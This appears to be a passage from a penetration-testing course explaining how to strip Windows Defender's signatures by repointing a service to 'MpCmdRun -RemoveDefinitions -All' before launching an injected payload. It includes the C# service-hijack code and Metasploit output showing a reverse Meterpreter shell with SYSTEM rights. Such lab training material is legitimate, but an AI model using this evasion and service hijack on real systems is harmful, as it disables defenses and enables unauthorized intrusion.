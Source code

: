 We could take a different approach and target Windows Defender itself. The real-time protection provided by Windows Defender runs in the _MsMpEng_ SYSTEM process, which executes with PPL enabled. Even with SYSTEM level access, we cannot terminate the process. This approach is also problematic.

There is, however, a different approach that could work in this situation.

Windows Defender includes the command-line _MpCmdRun_[2](https://portal.offsec.com/courses/pen-300-9502/learning/combining-the-pieces-14687/combining-the-pieces-14955#fn-local_id_747-2) tool that we can use to initiate scans and perform signature updates. The documentation reveals that we can also use it to remove signature definitions with -RemoveDefinitions All, which was designed to prevent issues with failed updates.

We can abuse this by first setting the service executable of SensorService to "MpCmdRun" with the options to remove all signatures and start it. Once it times out, we update it again to "Inject". This time, Windows Defender is stripped of all signatures and will not flag our network traffic.



This technique is unique to Windows Defender but other antivirus products contain similar functionality that can be abused.

A truncated portion of the updated code for our lat.exe lateral movement tool is shown in Listing 48.

```
...
string signature = "\"C:\\Program Files\\Windows Defender\\MpCmdRun.exe\" -RemoveDefinitions -All";
string payload = "C:\\inject.exe";

bool bResult = ChangeServiceConfigA(schService, 0xffffffff, 3, 0, signature, null, null, null, null, null, null);
bResult = StartService(schService, 0, null);

bResult = ChangeServiceConfigA(schService, 0xffffffff, 3, 0, payload, null, null, null, null, null, null);
bResult = StartService(schService, 0, null);
...
```

> Listing 48 - AV signatures are removed before starting Meterpreter

Now we must upload the new version of lat.exe to web01 and ensure that inject.exe is still present on file01.

Once everything is in order and a listener has started, we'll launch lat.exe.

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.131; (UUID: iu2gl81c) Staging x64 payload (207506 bytes) ...
[*] Meterpreter session 3 opened (192.168.119.120:443 -> 192.168.120.131:49769)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > sysinfo
Computer        : FILE01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : EVIL
Logged On Users : 7
Meterpreter     : x64/windows
```
